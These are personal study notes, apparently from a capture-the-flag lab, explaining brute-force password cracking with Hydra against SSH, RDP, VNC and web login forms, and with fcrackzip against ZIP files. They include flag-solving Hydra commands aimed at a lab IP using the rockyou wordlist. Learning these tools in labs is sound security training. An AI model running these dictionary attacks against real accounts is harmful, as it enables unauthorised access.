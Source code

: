 <h2>Brute Force</h2>
<ul>Remote access protocols related:
  <li>SSH: Secure Shell. Remote login. It provides the user with a command-line interface (CLI) that can be used to execute commands.</li>
  <li>RDP: Remote Desktop Protocol; it is also known as Remote Desktop Connection (RDC) or simply Remote Desktop (RD). It provides a graphical user interface (GUI) to access an MS Windows system.</li>
  <li>VNC: Virtual Network Computing. It provides access to a graphical interface which allows the user to view the desktop and (optionally) control the mouse and keyboard. VNC is available for <b>any system</b> with a graphical interface, including MS Windows, Linux, and even macOS, Android and Raspberry Pi.</li>
</ul>
<h3>Hydra</h3>
<p>
  Compatible protocols:
  <ul>
    <li>Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.</li>
  </ul>
  Standard format: <b>hydra -l username -P wordlist.txt server service -V</b>
  <ul>
    <li><b>-l username:</b> -l should precede the username, you should omit this option if the service does not use a username.</li>
    <li><b>-P wordlist.txt:</b> file or path to the list of passwords you want to try with the provided username. (Rockyou.txt)</li>
    <li><b>server</b> is the hostname or IP address of the target server.</li>
    <li><b>service</b> indicates the service in which you are trying to launch the dictionary attack. Such as <b>rdp, vnc, ftp, pop3 or any other protocol</b> supported by Hydra. Check list of compatible protocols</li>
    <li>Exemple: hydra -l mark -P /usr/share/wordlists/rockyou.txt MACHINE_IP ssh   or   hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP</li>
  </ul>
  Options you can use:
  <ul>
  <li>-V or -vV, for verbose, makes Hydra show the username and password combinations being tried.</li>
  <li>-d, for debugging, provides more detailed information about what’s happening. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this immediately.</li>
  </ul>
  <h3>Cheatsheat</h3>
  https://github.com/frizb/Hydra-Cheatsheet<br>
</p>
<h2>Hydra Room</h2>
<p>
  Flag 1:<br>
  hydra -l molly -P Documentos/rockyou_20_12_2022.txt 10.10.38.247 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V<br>
  Flag 2:<br>
  hydra -l molly -P Documentos/rockyou_20_12_2022.txt 10.10.38.247 ssh -V<br>
</p>
<h2>ZIP files</h2>
<p>
fcrackzip , is a tool to brute force zip files.<br>
syntax: fcrackzip -b file.zip -u -c a1 -l 'length'
<ul>
  <li>fcrackzip – Selecting the tool we want to use.</li>
  <li>-b – Selecting the option for a brute-force attack.</li>
  <li>file.zip is the target</li>
  <li>-u – This makes sure fcrackzip actually tries to unzip the file, without this we won’t actually get the right password.</li>
  <li>-c – This is where we pick the characters we want to use in our dictionary attack. In this example we’re using ‘a’ which represents lowercase letters, and ‘1’ which represents numbers 0-9.</li>
  <li>-l – This is where we state the length of the password we want to crack. If we know the password is between 4 and 6 characters, we would use "-l 4-6".</li>
</ul>
cheat sheat fcrackzip: https://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html<br>
</p>
